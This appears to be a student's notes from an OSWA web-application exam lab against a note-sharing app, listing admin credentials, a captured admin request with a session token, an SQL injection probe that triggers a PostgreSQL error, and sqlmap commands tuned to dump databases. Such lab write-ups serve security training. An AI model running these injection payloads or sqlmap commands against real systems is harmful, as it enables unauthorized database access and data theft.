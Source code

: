 # Start here
starting page after logging in with `administrator:adminxss`
- able to `delete` or `approve` notes
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic26.png]]
also able to `lock` or look at notes of `users`
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic27.png]]
## Deleting Users
burp request of deleting users
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic28.png]]
post request for `sql`
```bash
POST /api/admin/note/delete?noteId=e23ff7e1-0925-420c-aa9f-e562f81e63bc HTTP/1.1
Host: 192.168.62.62:8443
Cookie: sessionToken=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJsb3Bob3N0cml4IiwiaXNBZG1pbiI6InRydWUiLCJleHAiOjE3NTgzMjkyOTYsInVzZXJJZCI6IjM5YmNjMDEwLTE5NWEtNGM0Mi1hNmM4LWE2YmRjYjI0NmU5YyIsInVzZXJuYW1lIjoiYWRtaW5pc3RyYXRvciJ9.855q7o-lOgqbTCApebC5kqyXuOluRC5OIDMo5MLZ2uU
Content-Length: 0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not=A?Brand";v="24", "Chromium";v="140"
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: */*
Origin: http://192.168.62.62
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Sec-Fetch-Storage-Access: active
Referer: http://192.168.62.62/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive
```
## Approving Users
burp request of approving users
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic29.png]]
## Locking Users
locking out`jen7` user
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic30.png]]
unlocking user 
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic31.png]]

## Viewing Notes
burp of `viewing` notes
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic32.png]]

# SQL Testing
testing all post requests above

don't believe `sqlmap`will work, but can specify db now with is `postgresql`
```bash
sqlmap -r delete_post.txt --batch --risk=3 --level=5
```
got an `sql` error when utilizing `''` two backticks
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-PSQL-identification-pic33.png]]

```bash
'''-SELECT+current_user
```

![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic34.png]]
error i am receiving
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic35.png]]

```bash
{"status": "error", "message":"An error occurred. StatementCallback; bad SQL grammar [DELETE FROM notes WHERE id = '--b079a6c0-fcd2-43b1-8feb-2147fac1eb0e'''-SELECT current_user';]; nested exception is org.postgresql.util.PSQLException: Unterminated string literal started at position 91 in SQL DELETE FROM notes WHERE id = '--b079a6c0-fcd2-43b1-8feb-2147fac1eb0e'''-SELECT current_user';. Expected  char"}
```


1.
sqlmap -r delete.req -p id --batch --level=5 --risk=3 --technique=BEUSTQ --dbs

-r delete.req: Load raw request

-p id: Target the id field

--level=5 --risk=3: High-depth testing

--technique=BEUSTQ: Use all SQLi types (Boolean, Error, Union, Stacked, Time-based, Inline queries)

--dbs: Extract DB names


2.sqlmap -r delete.req -p id --prefix="'" --suffix="--" --dbs
--prefix and --suffix help when the backend wraps the id in single quotes.
